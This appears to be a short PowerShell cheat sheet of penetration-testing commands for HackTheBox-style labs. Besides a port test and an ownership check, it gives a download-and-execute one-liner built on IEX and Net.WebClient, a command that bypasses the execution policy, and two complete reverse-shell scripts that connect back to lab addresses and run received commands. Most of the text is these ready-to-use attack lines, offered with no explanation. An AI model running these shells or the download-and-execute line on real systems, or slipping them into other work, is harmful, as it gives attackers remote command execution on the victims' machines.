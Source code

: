 ## Test Connection Down port

```
Test-NetConnection -ComputerName 10.10.10.100 -Port 389
```

## Pipe a Command into Powershell

```
echo IEX(New-Object Net.WebClient).DownloadString('http://') | powershell -noprofile -

```

## Check File Ownership

```
Get-ACL root.txt | fl *
```

**## Run powershell script on reverse shell**

```
powershell -nolog -executionpolicy bypass -file .\a.ps1
```

**## One liner powershell reverse shell:**

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.14',8085); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ ;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}; $client.Close()"
```

## Powershell revere shell clean

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
 $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
 $sendback = (iex $data 2>&1 | Out-String );
 $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
 $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
 $stream.Write($sendbyte,0,$sendbyte.Length);
 $stream.Flush();
}
$client.Close();

```
